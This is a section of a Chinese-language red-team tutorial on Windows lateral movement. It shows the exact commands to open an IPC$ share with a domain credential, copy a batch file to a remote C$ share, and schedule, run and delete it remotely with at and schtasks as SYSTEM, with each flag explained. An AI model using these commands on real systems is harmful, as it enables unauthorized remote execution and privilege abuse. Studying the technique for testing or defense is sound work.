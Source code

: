 ```yaml
---
title: 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务
id: zhfly3420
---
```


#### 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

```
net use \\192.168.19.169\c$ test@123 /user:adtest\jeff1 
copy 1.bat \\192.168.19.169\c$ `net time \192.168.19.169

at \192.168.19.169 1:03 c:\1.bat` 
```

![image](../img/632ce21e5a6e8f10daa2e58318a68a53.png)

#### schtasks

由于 at 在新版本的系统中已被弃用，我们需要用 schtasks 替代

![image](../img/b8dbff03c0c60310990c12fc02053157.png)

```
schtasks /create /s 192.168.19.177 /u adtest\jeff1 /p test@123 /ru "SYSTEM" /tn test /sc DAILY /tr c:\1.bat /F 
```

创建计划任务，/s 指定远程机器名或 ip 地址，/ru 指定运行任务的用户权限，这里指定 为最高的 SYSTEM，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行，并没什么 实际意义，/tr 指定运行的文件，/F 表示如果指定的任务已经存在，则强制创建任务并抑制警告

![image](../img/14fcdf7b0ac9a29926cec49e742575ff.png)

运行任务，其中/i 表示立即运行

```
schtasks /run /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /i 
```

![image](../img/d9f825d3ad26244d394ddc9fbfa1d993.png)

![image](../img/ab71daab81b108fe983b694d598f6dc9.png)

删除计划任务

```
schtasks /delete /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /f 
```

![image](../img/328ce8b2be67f64fa1c07ce98b94d412.png)

![image](../img/80ee48f32e0567837152116661e1e521.png)